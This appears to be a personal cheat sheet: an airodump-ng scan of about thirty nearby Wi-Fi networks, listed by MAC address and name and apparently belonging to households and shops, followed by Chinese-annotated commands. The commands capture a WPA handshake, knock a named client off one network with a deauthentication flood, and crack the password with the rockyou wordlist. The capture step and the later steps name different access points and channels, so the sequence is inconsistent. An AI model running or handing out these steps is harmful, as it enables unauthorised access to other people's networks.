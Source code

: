                                                                                                                         
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                         
                                                                                                                         
 10:63:4B:05:DB:54   -1        0        0    0  13   -1                    <length:  0>                                                                              
 9A:EA:11:BB:16:D2   -1        0        0    0  10   -1                    <length:  0>                                                                              
 14:89:CB:8A:31:40   -1        0        2    0  11   -1   WPA              <length:  0>                                                                              
 F4:84:8D:9A:56:EE  -18       13        3    0   6  720   WPA2 CCMP   PSK  TP-LINK_56EE                                                                              
 F6:84:8D:7A:56:EE  -18        9        0    0   6  720   WPA2 CCMP   PSK  <length:  0>                                                                              
 B8:3A:08:B2:FA:61  -40       17        0    0  13  270   WPA2 CCMP   PSK  Tenda_B2FA60                                                                              
 BC:46:99:F7:59:44  -44        9        0    0   6  270   WPA2 CCMP   PSK  TP-LINK_5944                                                                              
 F6:1C:71:4B:F4:A9  -43        7        0    0  11  324   WPA2 CCMP   PSK  ChinaUnicom-F4A8_Wi-Fi5                                                                   
 F6:1C:71:0B:F4:A9  -44        6        0    0  11  324   WPA2 CCMP   PSK  ChinaUnicom-F4A8                                                                          
 B0:AC:D2:4F:13:8A  -54        6        0    0   1  130   WPA2 CCMP   PSK  ChinaNet-2.4G-138A                                                                        
 D4:DA:21:A5:4E:5C  -60        6        0    0   1  130   WPA2 CCMP   PSK  xy0922                                                                                    
 A4:39:B3:85:D9:0C  -61        3        0    0   1  270   WPA2 CCMP   PSK  301-1                                                                                     
 D0:76:E7:62:7F:9B  -62        6       27    0   6  130   OPN              TP-LINK_7F9B                                                                              
 A0:91:C8:39:03:10  -67        6        0    0   8  130   WPA2 CCMP   PSK  ChinaNet-G35F                                                                             
 5C:A4:A4:0B:11:ED  -67        6        0    0  11  130   WPA2 CCMP   PSK  ChinaNet-r6wp                                                                             
 60:AA:EF:A2:2C:F1  -68        3        0    0   6  360   WPA2 CCMP   PSK  <length:  0>                                                                              
 60:AA:EF:A2:2C:EC  -69        2        0    0   6  400   WPA2 CCMP   PSK  Ben's WiFi for hot girls                                                                  
 48:A7:3C:4C:23:89  -69        2        0    0   9  130   WPA2 CCMP   PSK  ChinaNet-izvz                                                                             
 24:1D:48:CB:1A:31  -69        1        3    0   4  360   WPA2 CCMP   PSK  wy2000                                                                                    
 44:DF:65:67:BE:A1  -69        4        2    0  10  130   WPA2 CCMP   PSK  金生米煮成熟饭                                                                            
 2C:61:04:A7:99:94  -70        4        0    0  11  130   WPA2 CCMP   PSK  ChinaNet-2.4G-9994                                                                        
 36:F7:16:AC:7F:8E  -70        4        0    0   1  270   WPA2 CCMP   PSK  <length:  0>                                                                              
 98:00:6A:36:43:B0  -71        2        0    0   3  360   WPA2 CCMP   PSK  SZ2020                                                                                    
 34:F7:16:8C:7F:8E  -73        3        0    0   1  270   WPA2 CCMP   PSK  TP-LINK_7F8E                                                                              
 B8:F8:83:88:16:9A  -72       10        0    0   1  270   WPA2 CCMP   PSK  伟业商行                                                                                  
 DC:FE:18:4D:9A:AA  -76        1        0    0   1  405   WPA2 CCMP   PSK  TSKF                                                                                      
 78:60:5B:D0:AE:7F  -77        0        0    0   1  360   WPA2 CCMP   PSK  JJJJJJJ                                                                                   
 82:60:5B:D0:AE:7F  -79        2        0    0   1  360   WPA2 CCMP   PSK  <length:  0>                                                                              
 60:AA:EF:F2:2C:F1  -69        2        0    0   6  360   WPA2 CCMP   PSK  Ben's WiFi for hot girls_Wi-Fi5                                                           
 54:66:6C:AE:72:D0  -68        1        0    0   3  130   WPA2 CCMP   PSK  ChinaNet-ccsh                                     
                                                                               


 44:DF:65:67:BE:A1  -67       21        9    0  10  130   WPA2 CCMP   PSK  金生米煮成熟饭  


抓包  bssid（mac地址） 和 ch （频段） 也是这里的-c
airodump-ng -c 9 --bssid B8:3A:08:B2:FA:61 -w /home/apple/桌面/handshake wlan0mon

攻击  -a后面是mac地址 ;-c后面是我们上一步抓包的STATION
aireplay-ng -0 10 -a 44:DF:65:67:BE:A1 -c EC:2E:98:93:AF:2F wlan0mon

破解  -w 后面是我们放在桌面的字典  -b后面是BSSID地址  以及我们抓包的文件地址
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 44:DF:65:67:BE:A1 /home/apple/桌面/handshake-02.cap
